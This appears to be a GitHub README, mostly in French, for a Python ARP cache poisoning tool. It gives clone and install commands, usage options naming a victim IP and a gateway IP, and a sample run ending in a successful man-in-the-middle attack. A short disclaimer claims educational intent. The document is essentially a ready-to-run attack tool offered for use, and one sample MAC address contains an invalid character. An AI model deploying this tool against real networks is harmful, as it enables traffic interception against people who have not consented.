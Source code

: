 # Installation :
```
# Cloner :
git clone https://github.com/PrestaDZ/ARP-Cache-poisoning.git

# Change directory :
cd ARP-Cache-poisoning

# Requirements :
pip3 install -r requirements.txt
```

# Usage :

```

$ sudo python3 acp.py --help

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

usage: python3 acp.py [-h] -s SWITCH_IP -i VICTIM_IP

optional arguments:
  -h, --help            show this help message and exit
  -s SWITCH_IP, --switch-ip SWITCH_IP
                        L'adresse IP de la passerelle.
  -i VICTIM_IP, --victim-ip VICTIM_IP
                        L'adresse IP de la victime.

```

# Exemple :

```
$ sudo python3 acp.py -s 192.168.0.254 -i 192.168.0.10

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

Envoi de 2 paquets ICMP à 192.168.0.10...
------------
Sent : 2 , Received : 0
Packet lost         : 1.0

[!] L'hôte ne répond pas au packets ICMP.
Envoi de 2 paquets ICMP à 192.168.0.254 ...
------------
Sent : 2 , Received : 2
Packet lost         : 0.0


-------------------------------------------
[i] Victime    Ip / MAC  -> 192.168.0.10  : 32:1a:u9:d4:f7:23
[i] Passerelle Ip / MAC  -> 192.168.0.254 : fa:18:8b:a6:21:ce

[+] Lancement de l'attaque ...
[i] Taper controle + C pour quitter le programme.
[+] Attaque lancée avec succès

```

Ce code a pour but de vous mettre dans une position de MiTM entre la victime et la passerelle en corrompant le cache ARP, il a été écrit pour un usage informatif et éducatif et non pour un usage illégal, il est interdit par la loi et punissable de l'utilisé sur un réseau ne vous appartenant pas, et je me désolidarise de ces actes.
